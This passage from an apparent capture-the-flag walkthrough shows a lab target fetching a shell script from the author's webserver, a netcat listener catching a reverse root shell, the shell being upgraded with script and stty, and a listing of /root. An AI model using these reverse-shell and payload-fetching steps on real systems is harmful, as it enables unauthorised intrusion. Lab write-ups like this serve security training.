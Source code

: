 First there’s a request at the webserver:

```
10.10.10.224 - - [08/Jun/2021 17:57:01] "GET /shell.sh HTTP/1.1" 200 -

```

Then a shell:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.224] 43642
bash: cannot set terminal process group (59): Inappropriate ioctl for device
bash: no job control in this shell
root@smtp:~#

```

Python isn’t installed on the box, but I can use `script`:

```

root@smtp:~# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null 
root@smtp:~# ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@parrot$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@smtp:~# 

```

## Shell as j.nakazawa on srv01

### Enumeration

I’m already root on this host, but there isn’t anything interesting in `/root/`:

```

root@smtp:~# ls -la
total 8
drwx------. 1 root root 151 Jun  9 10:41 .
drwxr-xr-x. 1 root root  96 Dec  8  2020 ..
lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .bash_history -> /dev/null
-rw-r--r--. 1 root root 570 Jan 31  2010 .bashrc
-rw-r--r--. 1 root root 148 Aug 17  2015 .profile
lrwxrwxrwx. 1 root root   9 Dec  9 12:32 .viminfo -> /dev/null

```
